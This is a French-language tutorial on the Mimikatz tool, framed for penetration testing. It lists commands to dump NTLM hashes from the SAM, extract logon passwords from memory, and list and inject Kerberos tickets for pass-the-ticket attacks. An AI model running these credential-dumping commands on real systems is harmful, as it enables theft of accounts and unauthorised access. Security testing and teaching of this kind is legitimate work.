 # Mimikatz

**Introduction**\
Mimikatz est un outil puissant pour l'extraction de mots de passe, de hashes et de tickets Kerberos depuis la mémoire d'un système Windows compromis. Il est souvent utilisé dans les tests de pénétration pour démontrer des failles de sécurité dans les systèmes de gestion des mots de passe et des sessions.

**Installation de Mimikatz**

* **Sous Windows** : Téléchargez Mimikatz depuis le dépôt GitHub de Mimikatz ou depuis un site de confiance. Décompressez l’archive ZIP et exécutez `mimikatz.exe` depuis l'invite de commandes (cmd) avec les droits administratifs.

**Utilisation de Base**

1.  **Exécuter Mimikatz**

    ```cmd
    mimikatz
    ```

    **Explication** : Lance l’interface de ligne de commande de Mimikatz pour accéder à ses fonctionnalités.\

2.  **Obtenir les Hashes des Mots de Passe**

    ```cmd
    privilege::debug
    lsadump::sam
    ```

    **Explication** : Active les privilèges de débogage et extrait les hashes NTLM des comptes utilisateurs stockés dans le SAM (Security Accounts Manager).\


**Options Avancées**

1.  **Extraire les Tickets Kerberos**

    ```cmd
    kerberos::list
    ```

    **Explication** : Liste les tickets Kerberos en mémoire, qui peuvent être utilisés pour effectuer des attaques de type pass-the-ticket.\

2.  **Injecter des Tickets Kerberos**

    ```cmd
    kerberos::ptt /path/to/ticket.kirbi
    ```

    **Explication** : Injecte des tickets Kerberos dans le système pour obtenir des accès privilégiés ou contourner les contrôles de sécurité.\


**Exemples d'Extraction**

1.  **Extraire les Mots de Passe des Sessions Actives**

    ```cmd
    sekurlsa::logonpasswords
    ```

    **Explication** : Extrait les mots de passe et les hashes des sessions actives en mémoire.\

2.  **Dump des Hashes NTLM**

    ```cmd
    lsadump::sam
    ```

    **Explication** : Extrait les hashes NTLM des comptes utilisateurs stockés dans le SAM du système.\
